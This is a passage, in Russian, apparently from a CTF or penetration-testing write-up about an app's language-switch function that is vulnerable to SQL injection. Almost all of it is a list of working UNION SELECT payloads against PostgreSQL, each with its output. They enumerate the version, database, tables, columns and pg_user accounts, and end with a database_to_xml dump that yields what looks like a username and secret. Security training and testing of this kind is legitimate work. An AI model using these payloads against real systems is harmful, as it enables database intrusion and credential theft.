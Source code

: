 При смене языка, его код отображается в соответствующем хэдере:

![ScreenShot](screenshots/21.png)

Данный функционал уязвим к SQLi. Ниже список команд для удачной эксплуатации:

```
updateLanguage("0' UNION SELECT '',version() --") - PostgreSQL 16.1 (Debian 16.1-1.pgdg120+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit
updateLanguage("0' UNION SELECT '',current_database()--") - MyPastaDB
updateLanguage("0' UNION SELECT '0',table_name FROM information_schema.tables WHERE table_schema='public'-- -") - Users
updateLanguage("0' UNION SELECT '0',column_name FROM information_schema.columns WHERE table_name='Users'-- -") - Id
updateLanguage("0' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_name='Users'-- -") - Password
updateLanguage("0' UNION SELECT '2',column_name FROM information_schema.columns WHERE table_name='Users'-- -") - Username
updateLanguage("0' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema='public'-- -") - Localizations
updateLanguage("0' UNION SELECT '0',column_name FROM information_schema.columns WHERE table_name='Localizations'-- -") - Content
updateLanguage("0' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_name='Localizations'-- -") - LocaleCode
updateLanguage("0' UNION SELECT '0',user-- -") - pastapp_svc
updateLanguage("0' UNION SELECT '0',usename FROM pg_user-- -") - admin
updateLanguage("0' UNION SELECT '0',passwd FROM pg_user-- -") - ********
updateLanguage("0' UNION SELECT '0',usename FROM pg_user WHERE usesuper IS TRUE-- -") - admin
updateLanguage("0' UNION SELECT '0',datname FROM pg_database-- -") - template0
updateLanguage("0' UNION SELECT '1',datname FROM pg_database-- -") - mypastadb
updateLanguage("0' UNION SELECT '',database_to_xml(true,true,'')::text -- -") - pastalover:ZThmZWU3ZTctOTk5OS00NTRlLTk3NWQt
```
